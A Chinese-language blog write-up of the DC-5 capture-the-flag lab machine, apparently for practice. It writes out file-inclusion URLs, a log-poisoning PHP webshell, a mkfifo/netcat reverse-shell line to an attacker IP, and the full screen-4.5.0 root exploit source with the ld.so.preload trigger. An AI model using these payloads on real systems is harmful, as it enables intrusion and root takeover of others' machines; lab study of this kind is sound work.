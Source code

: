 ```yaml
---
layout: post
title: DC-5
subtitle: DC-5
date: 2025-07-14 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/5EIqko.png)

nmap 扫描端口

![image.png](https://img.ghostliner.top/3eEhul.png)

扫描目录

```shell
dirsearch -u http://192.168.163.131
```

![image.png](https://img.ghostliner.top/NKfI1N.png)

访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含

![image.png](https://img.ghostliner.top/AkVtmi.png)

wfuzz测试

```shell
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
```

![image.png](https://img.ghostliner.top/uJqh3W.png)

查看passwd文件: <http://192.168.163.131/thankyou.php?file=file:///etc/passwd>
![image.png](https://img.ghostliner.top/kW0SGs.png)

查看日志文件: <http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log>

日志注入

```
/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
# or
/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
```

蚁剑连接成功
![image.png](https://img.ghostliner.top/hMgCKv.png)

反弹shell成功，find判断是否可以提权，发现 `screen-4.5.0`
![image.png](https://img.ghostliner.top/pgAJ54.png)

搜索相关漏洞，使用 `41154.sh` 进行提权

![image.png](https://img.ghostliner.top/KwqlkT.png)

在目标机上直接执行脚本失败，在kali上编译失败。
![image.png](https://img.ghostliner.top/IPVQN9.png)

在centos7上先编译再在目标机上执行，成功提权。

**过程如下：**

安装gcc

```shell
# 1.备份
mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
# 2.下载想要的源
wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
# 3.清除旧缓存数据，建立新的缓存
yum clean all
yum makecache
# 4.安装gcc
yum install -y gcc
```

创建两个文件

```shell
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```shell
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

进行编译

```shell
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/libhax.c
rm -f /tmp/rootshell.c
```

编译成功

![image.png](https://img.ghostliner.top/n3En90.png)

将文件传送到目标机

```shell
# dc-5
cd /tmp
nc -lvp 4545 > libhax.so
# centos
nc 192.168.163.131 4545 <libhax.so
# dc-5
nc -lvp 4545 > rootshell
# centos
nc 192.168.163.131 4545 <rootshell
```

最后在目标机上执行

```shell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

查看 `/root/thisistheflag.txt`

![image.png](https://img.ghostliner.top/EkFC3Q.png)
